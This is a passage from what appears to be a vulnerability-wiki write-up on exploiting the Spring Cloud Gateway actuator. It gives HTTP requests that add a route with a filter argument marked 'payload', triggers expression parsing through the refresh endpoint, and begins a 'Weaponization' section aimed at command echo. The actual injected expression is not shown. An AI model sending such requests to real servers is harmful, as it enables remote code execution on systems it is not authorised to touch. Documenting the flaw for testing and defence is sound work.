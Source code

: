 <br/>

You can choose one of the `GatewayFilterFactory` at will, for example, use `Retry` to modify the request package:

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 181

{
  "id": "1234567",
  "filters": [{
    "name": "Retry",
    "args": {
"a":"payload"
   }
  }],
  "uri": "https://localhost"
}
```

<br/>

The route creation is displayed after request. 

```json
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
```

<br/>

Expression parsing is successfully triggered:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573597584-9b9bc011-190f-4562-ac76-9e67d0b7945f.png)



### Weaponization 1: Command echo

<br/>Discovery through debugging that the `apply` function corresponding to `GatewayFilter` will be called when refresh routing. 

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573625150-6beef741-5360-4a88-be27-bfbbba9d2664.png)

<br/>Recalling the previous legal `GatewayFilter` list, we found that there is a subclass called `AddResponseHeaderGatewayFilterFactory`:
